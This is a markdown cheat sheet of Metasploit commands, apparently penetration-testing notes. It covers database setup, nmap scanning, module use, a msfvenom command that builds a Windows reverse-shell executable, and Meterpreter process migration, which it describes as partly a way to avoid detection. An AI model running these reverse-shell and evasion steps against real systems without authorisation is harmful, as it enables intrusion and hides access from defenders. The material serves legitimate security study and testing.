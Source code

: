 ```yaml
---
title: "Metasploit"
weight: 4
description: ""
---
```


## Metasploit

```sh
# Start the database service & create and initialize the MSF database
msfdb init

# Enable the database service
sudo systemctl enable postgresql

# Verify database connectivity
db_status

# Create workspace
workspace -a target1

# Scan with nmap
db_nmap -A <TARGET1>

# List of all discovered hosts up
hosts

# Display discovered services
services
services -p 5000 # specific port

# Search all SMB auxiliary modules
search type:auxiliary smb
search apache

# Activate a module
use 5

# Get information about the currently activated module
info

# Display the options of a module
show options

# Get a list of all payloads that are compatible with the currently selected module
show payloads

# set & unset an option
set <OPTION> <VALUE>
unset <OPTION>

# Set a payload
set payload payload/linux/x64/shell_reverse_tcp

# Launch a module
run

# Show vulnerabilities that Metasploit automatically detected based on the results of the executed module
vulns

# Show valid credentials we gathered
creds

# Background session
CTRL + Z

# List all active sessions
sessions -l

# Interact with a session
sessions -i 2
```
---

## msfvenom
```sh
# List payloads
msfvenom -l payloads --platform windows --arch x64

# Create payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<LPORT> -f exe -o file.exe
```

> **Note**: To handle a staged payload don't use netcat. Use Metasploit’s `multi/handler` instead.

---

## Migrate (meterpreter)

Reason to migrate:
When a host is compromised, the Meterpreter payload runs inside the process used for exploitation. 
* **Stability**: If that process is closed, your access is lost
* **Avoid detection**: The process name may also appear suspicious to defenders
* **Compatibility**: The payload may be 64-bit, but the session is on an 86-bit OS

To avoid this, we can use `migrate` to move the payload to a more stable or inconspicuous process.

> **Note**: Migration is only allowed to processes with the same or lower integrity and privilege level.

```sh
# Show list process
meterpreter > ps

# Migrate
meterpreter > migrate 8052
```

If no suitable process is available for migration, we can use the execute command to create a new process and run the Meterpreter payload within it by specifying a desired command or program.

```sh
# Create a hidden process
meterpreter > execute -H -f notepad

# Migrate
meterpreter > migrate 8052
```

